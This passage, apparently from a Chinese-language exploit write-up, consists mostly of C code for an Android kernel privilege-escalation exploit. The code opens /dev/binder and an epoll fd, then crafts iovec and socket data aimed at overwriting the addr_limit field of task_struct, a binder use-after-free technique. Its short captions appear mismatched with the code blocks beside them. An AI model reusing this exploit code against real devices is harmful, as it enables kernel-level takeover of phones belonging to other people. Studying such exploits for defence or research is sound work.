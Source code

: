 申请一个 socket, 并向 socket 中填充一个垃圾数据

```
   m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");

```

申请 binder 的 fd eventpoll 的 fd

```
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),//addr_limit的地址
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);

```
